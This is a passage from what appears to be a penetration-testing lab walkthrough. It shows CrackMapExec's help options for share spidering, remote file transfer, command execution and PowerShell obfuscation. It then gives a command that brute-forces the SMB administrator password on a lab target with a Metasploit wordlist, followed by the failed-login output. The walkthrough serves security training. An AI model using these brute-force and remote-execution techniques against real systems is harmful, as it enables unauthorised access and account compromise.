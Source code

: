 ```

Spidering:
  Options for spidering shares

  --spider SHARE        share to spider
  --spider-folder FOLDER
                        folder to spider (default: root share directory)
  --content             enable file content searching
  --exclude-dirs DIR_LIST
                        directories to exclude from spidering
  --pattern PATTERN [PATTERN ...]
                        pattern(s) to search for in folders, filenames and file content
  --regex REGEX [REGEX ...]
                        regex(s) to search for in folders, filenames and file content
  --depth DEPTH         max spider recursion depth (default: infinity & beyond)
  --only-files          only spider files

Files:
  Options for put and get remote files

  --put-file FILE FILE  Put a local file into remote target, ex: whoami.txt \\Windows\\Temp\\whoami.txt
  --get-file FILE FILE  Get a remote file, ex: \\Windows\\Temp\\whoami.txt whoami.txt

Command Execution:
  Options for executing commands

  --exec-method {mmcexec,atexec,smbexec,wmiexec}
                        method to execute the command. Ignored if in MSSQL mode (default: wmiexec)
  --force-ps32          force the PowerShell command to run in a 32-bit process
  --no-output           do not retrieve command output
  -x COMMAND            execute the specified command ←
  -X PS_COMMAND         execute the specified PowerShell command ←

Powershell Obfuscation:
  Options for PowerShell script obfuscation

  --obfs                Obfuscate PowerShell scripts
  --clear-obfscripts    Clear all cached obfuscated PowerShell scripts
```

_Use CrackMapExec to attempt brute-force attacks on the SMB service using common credentials to gain access to the target machine._

`crackmapexec smb 10.4.23.124 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt --local-auth`:
```
SMB         10.4.23.124     445    EC2AMAZ-408S766  [*] Windows 10.0 Build 14393 (name:EC2AMAZ-408S766) (domain:EC2AMAZ-408S766) (signing:False) (SMBv1:False)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [-] EC2AMAZ-408S766\administrator:admin STATUS_LOGON_FAILURE 
SMB         10.4.23.124     445    EC2AMAZ-408S766  [-] EC2AMAZ-408S766\administrator:123456 STATUS_LOGON_FAILURE 
SMB         10.4.23.124     445    EC2AMAZ-408S766  [-] EC2AMAZ-408S766\administrator:12345 STATUS_LOGON_FAILURE 

...

SMB         10.4.23.124     445    EC2AMAZ-408S766  [-] EC2AMAZ-408S766\administrator:scooby STATUS_LOGON_FAILURE 
SMB         10.4.23.124     445    EC2AMAZ-408S766  [-] EC2AMAZ-408S766\administrator:carmen STATUS_LOGON_FAILURE 
SMB         10.4.23.124     445    EC2AMAZ-408S766  [-] EC2AMAZ-408S766\administrator:456789 STATUS_LOGON_FAILURE 
```